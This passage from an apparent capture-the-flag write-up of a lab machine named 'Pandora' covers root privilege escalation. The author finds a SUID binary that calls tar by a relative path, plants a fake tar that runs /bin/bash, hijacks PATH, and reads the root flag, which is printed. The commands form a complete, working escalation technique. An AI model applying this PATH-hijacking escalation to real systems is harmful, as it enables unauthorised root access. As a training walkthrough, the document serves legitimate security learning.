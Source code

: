 # Root

We start our enumeration and look for SUID binaries and found a binary called
`pandora_backup`.

    :::text
    matt@pandora:/$ find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
    -rwsr-xr-x 1 root root 166056 Jan 19  2021 /usr/bin/sudo
    -rwsr-xr-x 1 root root 31032 May 26  2021 /usr/bin/pkexec
    -rwsr-xr-x 1 root root 85064 Jul 14  2021 /usr/bin/chfn
    -rwsr-xr-x 1 root root 44784 Jul 14  2021 /usr/bin/newgrp
    -rwsr-xr-x 1 root root 88464 Jul 14  2021 /usr/bin/gpasswd
    -rwsr-xr-x 1 root root 39144 Jul 21  2020 /usr/bin/umount
    -rwsr-x--- 1 root matt 16816 Dec  3 15:58 /usr/bin/pandora_backup
    -rwsr-xr-x 1 root root 68208 Jul 14  2021 /usr/bin/passwd
    -rwsr-xr-x 1 root root 55528 Jul 21  2020 /usr/bin/mount
    -rwsr-xr-x 1 root root 67816 Jul 21  2020 /usr/bin/su
    -rwsr-sr-x 1 daemon daemon 55560 Nov 12  2018 /usr/bin/at
    -rwsr-xr-x 1 root root 39144 Mar  7  2020 /usr/bin/fusermount
    -rwsr-xr-x 1 root root 53040 Jul 14  2021 /usr/bin/chsh

Looking at the calls from this binary, we can see that it call `tar` with a
relative PATH.

    :::text
    matt@pandora:/$ ltrace /usr/bin/pandora_backup
    getuid()                                                               = 1000
    geteuid()                                                              = 1000
    setreuid(1000, 1000)                                                   = 0
    puts("PandoraFMS Backup Utility"PandoraFMS Backup Utility
    )                                      = 26
    puts("Now attempting to backup Pandora"...Now attempting to backup PandoraFMS client
    )                            = 43
    system("tar -cvf /root/.backup/pandora-b"...tar: /root/.backup/pandora-backup.tar.gz: Cannot open: Permission denied
    tar: Error is not recoverable: exiting now
    <no return ...>
    --- SIGCHLD (Child exited) ---
    <... system resumed> )                                                 = 512
    puts("Backup failed!\nCheck your permis"...Backup failed!
    Check your permissions!
    )                           = 39
    +++ exited (status 1) +++

The use of a relative PATH allow us to use a custom PATH to execute a custom
`tar` that will just spawn a root shell.


    :::text
    matt@pandora:~$ mktemp -d
    /tmp/tmp.yHz9XgyjVw
    matt@pandora:~$ echo '/bin/bash' > /tmp/tmp.yHz9XgyjVw/tar
    matt@pandora:~$ export PATH=/tmp/tmp.yHz9XgyjVw:$PATH
    matt@pandora:~$ chmod +x /tmp/tmp.yHz9XgyjVw/tar
    matt@pandora:~$ /usr/bin/pandora_backup
    PandoraFMS Backup Utility
    Now attempting to backup PandoraFMS client
    root@pandora:~# id
    uid=0(root) gid=1000(matt) groups=1000(matt)
    root@pandora:~# cat /root/root.txt
    8975a2739d6bc02170645feb6607b6db
